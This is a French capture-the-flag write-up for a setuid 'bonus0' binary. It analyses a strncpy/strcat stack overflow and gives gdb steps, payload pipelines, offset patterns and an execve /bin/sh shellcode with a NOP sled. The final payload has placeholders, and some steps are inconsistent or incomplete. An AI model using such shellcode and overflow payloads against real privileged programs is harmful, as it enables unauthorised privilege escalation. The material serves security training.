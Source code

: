 # BONUS 0

## 1. Introduction

Le binaire `bonus0` présente une vulnérabilité de **buffer overflow** via concaténation de chaînes. Le programme lit deux entrées de 20 caractères maximum, les concatène avec un espace, puis affiche le résultat dans un buffer de 54 caractères.

## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la bonus0
-rwsr-s---+ 1 bonus1  bonus0  747441 Mar  6  2016 bonus0
```

### 2.2 Code source analysé

```c
void main(void) {
    char local_3a[54];  // Buffer de 54 octets
    pp(local_3a);
    puts(local_3a);
    return 0;
}

void pp(char *param_1) {
    char local_34[20];  // Premier buffer
    char local_20[20];  // Second buffer
    
    p(local_34, &DAT_080486a0);        // Lit première entrée
    p(local_20, &DAT_080486a0);        // Lit seconde entrée
    strcpy(param_1, local_34);         // Copie première entrée
    
    // Calcule la longueur et ajoute un espace
    strlen_result = strlen(param_1);
    param_1[strlen_result] = ' ';
    param_1[strlen_result + 1] = '\0';
    
    strcat(param_1, local_20);         // Concatène seconde entrée
    return;
}

void p(char *param_1, char *param_2) {
    char local_100c[4104];
    
    puts(param_2);
    read(0, local_100c, 0x1000);
    pcVar1 = strchr(local_100c, 10);   // Trouve newline
    *pcVar1 = '\0';                    // Remplace par null
    strncpy(param_1, local_100c, 0x14); // Copie EXACTEMENT 20 octets
    return;
}
```

## 3. Analyse PRÉCISE de la vulnérabilité

### 3.1 Problème 1 : Echo ajoute un newline

Quand vous faites `echo "AAAAAAAAAAAAAAAAAAAA"`, cela produit **21 caractères** (20 'A' + newline).

### 3.2 Problème 2 : Comportement de strncpy()

- `strncpy(param_1, local_100c, 0x14)` copie **EXACTEMENT 20 octets**
- Si la source fait **20 caractères ou plus**, aucun '\0' n'est ajouté
- Les 20 premiers caractères sont copiés, le newline est ignoré

### 3.3 Problème 3 : strlen() sur buffer non-terminé

Si `local_34` n'a pas de '\0' à la fin :
- `strlen(param_1)` va lire **au-delà** des 20 caractères
- Il cherche un '\0' dans les données suivantes sur la pile
- L'espace est ajouté à une position imprévisible

## 4. Exploitation CORRIGÉE

### 4.1 Étape 1 : Comprendre la layout de la pile

D'après le code source Ghidra, la pile dans `pp()` est :
```
┌─────────────────┐ ← ESP+44 (local_34[20])
│   Entrée 1      │
├─────────────────┤ ← ESP+24 (local_20[20]) 
│   Entrée 2      │
├─────────────────┤ ← ESP+0
│  Autres vars    │
└─────────────────┘
```

### 4.2 Étape 2 : Stratégie correcte

**Option A : Contrôler strlen()**
- Entrée 1 : 19 'A' (avec null terminator automatique)
- Entrée 2 : payload d'overflow

**Option B : Buffer adjacents**
- Si `local_34` et `local_20` sont adjacents, contrôler les deux

### 4.3 Étape 3 : Test de la layout mémoire

```bash
# Test 1 : Vérifier si les buffers sont adjacents
./bonus0
AAAAAAAAAAAAAAAAAAA\x00  # 19 'A' + null explicite
BBBBBBBBBBBBBBBBBBBB     # 20 'B'

# Observer si on obtient : "AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB"
```

### 4.4 Étape 4 : Exploitation avec buffers adjacents

Si les buffers sont adjacents dans la pile :

```bash
# Test d'overflow contrôlé
(printf "AAAAAAAAAAAAAAAAAAA\x00"; printf "BBBBBBBBBBBBBBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLL") | ./bonus0
```

### 4.5 Étape 5 : Méthode alternative - Return to shellcode

Si return to libc ne fonctionne pas, utiliser shellcode sur la pile :

```bash
# Shellcode minimal (23 octets)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Payload avec NOP sled
(printf "AAAAAAAAAAAAAAAAAAA\x00"; python -c 'print "\x90"*10 + shellcode + "A"*(OFFSET-33) + "\xADDR_STACK"') | ./bonus0
```

## 5. Méthode de débogage systématique

### 5.1 Étape 1 : Tester les entrées séparément

```bash
# Test longueur première entrée
gdb bonus0
(gdb) break pp
(gdb) run
# Entrer : AAAAAAAAAAAAAAAAAAA (19 'A')
# Entrer : BBBB
(gdb) x/60x $esp
(gdb) x/s $esp+44  # local_34
(gdb) x/s $esp+24  # local_20
```

### 5.2 Étape 2 : Analyser le comportement de strlen

```bash
# Dans GDB après strcpy()
(gdb) break *pp+XX  # Après strcpy, avant strlen
(gdb) x/s param_1
(gdb) call strlen(param_1)
```

### 5.3 Étape 3 : Identifier la position exacte de l'overflow

```bash
# Utiliser printf au lieu d'echo pour contrôler exactement
(printf "AAAAAAAAAAAAAAAAAAA\x00"; printf "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9") | ./bonus0

# Dans GDB, examiner EIP après segfault
```

## 6. Commandes de test

### 6.1 Test de base (sans echo)

```bash
# Méthode 1 : printf pour contrôle exact
(printf "AAAAAAAAAAAAAAAAAAA\x00"; printf "BBBBBBBBBBBBBBBBBBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP") | ./bonus0

# Méthode 2 : python pour contrôle total
(python -c 'print "A"*19'; python -c 'print "B"*20 + "C"*20 + "D"*20') | ./bonus0
```

### 6.2 Vérification de l'offset réel

```bash
# Créer un pattern précis
(python -c 'print "A"*19'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"') | ./bonus0

# Dans GDB, examiner EIP et calculer l'offset précis
```

## 7. Action immediate

**Testez d'abord ceci pour comprendre la layout :**

```bash
(printf "AAAAAAAAAAAAAAAAAAA\x00"; printf "BBBBBBBBBBBBBBBBBBBB") | ./bonus0
```

**Puis ceci pour voir l'overflow :**

```bash
(printf "AAAAAAAAAAAAAAAAAAA\x00"; printf "BBBBBBBBBBBBBBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLL") | ./bonus0
```

**Analysez l'output pour comprendre EXACTEMENT comment les données sont concaténées.**

## 8. Conclusion

L'erreur principale était l'utilisation d'`echo` qui ajoute un newline, perturbant strncpy(). 